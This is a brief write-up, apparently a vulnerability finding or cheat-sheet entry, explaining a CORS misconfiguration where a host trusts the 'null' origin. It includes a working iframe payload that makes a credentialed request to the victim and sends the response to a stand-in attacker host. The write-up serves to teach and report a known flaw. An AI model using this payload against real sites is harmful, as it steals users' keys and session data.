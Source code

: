 # Null Origin

## Description 
Host allows requests from `null` origins.

`wwww.example.com` trusts `null`, which can be forged by iframe sandbox scripts

**Severity**: High

## Exploit 
Make requests using a sandboxed iFrame.

### Example

**Vulnerable Implementation** 
```http
GET /endpoint HTTP/1.1
Host: victim.example.com
Origin: null
Cookie: sessionid=... 

HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Control-Allow-Credentials: true 

{"[private API key]"}
```

**Exploit**  
This exploit can be done by putting the attack code into an iframe using the data URI scheme.  
If the data URI scheme is used, the browser will use the `null` origin in the request:

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://victim.example.com/endpoint',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://attacker.example.net/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe> 
```

[code source](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CORS%20Misconfiguration#vulnerable-example-null-origin)
